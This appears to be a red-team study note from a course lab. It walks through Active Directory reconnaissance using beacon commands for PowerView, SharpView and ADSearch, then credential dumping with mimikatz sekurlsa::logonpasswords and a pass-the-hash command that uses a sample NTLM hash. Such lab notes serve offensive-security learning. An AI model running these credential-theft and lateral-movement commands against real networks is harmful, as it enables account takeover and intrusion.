 # How to know and become someone else >:)

After elevating access on a Workstation, we should do some domain recon to see where we may be able to leverage them.
We could enumerate from the current domain as a standard domain user initially with
- **PowerView**
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```
- **SharpView**
```
beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Release\SharpView.exe Get-Domain
```
- **ADSearch**
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "objectCategory=user"
```

We would know from our domain recon who is a **local administrator** on multiple computers via his **membership** and get credential materials like NTLM hash, AES256 hash and a Kerberos TGT.

### Pass the Hash
The **Pass the Hash** technique is done using the NTLM hash. That can be retrieved with mimikatz 
```
beacon> mimikatz !sekurlsa::logonpasswords
```
and then perform the action
```
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```
